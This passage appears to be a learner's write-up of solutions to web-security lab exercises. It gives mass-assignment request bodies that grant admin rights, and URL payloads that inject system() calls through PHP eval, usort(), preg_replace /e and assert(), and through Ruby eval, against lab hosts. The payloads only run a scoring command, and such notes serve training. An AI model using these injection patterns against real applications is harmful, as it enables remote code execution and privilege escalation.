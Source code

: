 ### 05

chl: create an user with admin privileges

Similar as previous
`user%5Busername%5D=ggg&user%5Bpassword%5D=ggg&submit=Submit&user[admin]=1`

### 06

chl: create an user with is part of an organization (models...)
`user%5Busername%5D=fulano&user%5Bpassword%5D=fulano&submit=Submit&user[organisation_id]=1`

## Code execution

### 01

Run `/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`
target: `http://ptl-41df0d58-5b5fffd3.libcurl.st/?name=hacker`
exploit: `http://ptl-41df0d58-5b5fffd3.libcurl.st/?name=hacker";system('/usr/local/bin/score%20e6cb11a5-8d77-412b-9cfc-d99fc6bbe509');//`

### 02

chl: make a code injection
exploit: `http://ptl-92cf37fa-89bb2d65.libcurl.st/?order=id);};system('/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509');//`
notes: it uses php usort() function

### 03

exploit: `http://ptl-d47b409d-42207d73.libcurl.st/?new=system('/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')&pattern=/lamer/e&base=Hello%20lamer`
notes: it uses preg_replace() php function with `/e` on PCRE_REPLACE_EVAL

### 04

exploit: `http://ptl-ac7d180e-5efc435d.libcurl.st/?name=hacker'.system("/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509").'`
notes: exploiting the `assert()` PHP function

### 05

```
exploit: http://ptl-f3335912-d8dff103.libcurl.st/?username=hacker"+`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`+"
http://ptl-f3335912-d8dff103.libcurl.st/?username=hacker"%2b`/usr/local/bin/score%20e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`%2b"
```

note: the url has to be encoded
note: the app has an insecure use of `eval` in Ruby

### 06
